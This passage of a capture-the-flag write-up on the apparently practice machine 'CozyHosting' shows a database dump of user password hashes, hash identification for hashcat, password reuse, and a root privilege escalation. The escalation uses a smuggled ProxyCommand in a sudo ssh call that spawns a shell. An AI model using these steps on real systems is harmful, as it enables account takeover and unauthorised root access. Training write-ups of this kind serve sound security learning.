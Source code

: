 ```bash
----------+------------------------+-----------+----------+---------
 name     | character varying(50)  |           | not null | 
 password | character varying(100) |           | not null | 
 role     | role                   |           |          | 
Indexes:
    "users_pkey" PRIMARY KEY, btree (name)
Referenced by:
    TABLE "hosts" CONSTRAINT "hosts_username_fkey" FOREIGN KEY (username) REFERENCES users(name)

#  Print columns from users table
cozyhosting=# SELECT name, password FROM users;
   name    |                           password                           
-----------+--------------------------------------------------------------
 kanderson | $2a$10$<REDACTED>
 admin     | $2a$10$<REDACTED>
(2 rows)
```
I find 2 hashes in the database, one for `admin` and one for `kaderson`. 
I use `hashid -m` to identify the hashes as well the `hashcat` mode for them.
```bash
hashid -m '$2a$10$<REDACTED>'
Analyzing '$2a$10$<REDACTED>'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
`Admin` cracked quickly, `kanderson` did not. The `admin` password gave me access to the user `josh` on the box!
### Shell as Root
I switch over to `josh` and run `sudo -l` to list all commands `josh` can run with `sudo`.
```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
`Josh` can run `ssh *` with `sudo`. I use the [gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo) entry to escalate to root!
From there I can read `root.txt`
```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@cozyhosting:/home/josh# id
uid=0(root) gid=0(root) groups=0(root)
root@cozyhosting:/home/josh# cat /root/root.txt
19157d--------------------------
```
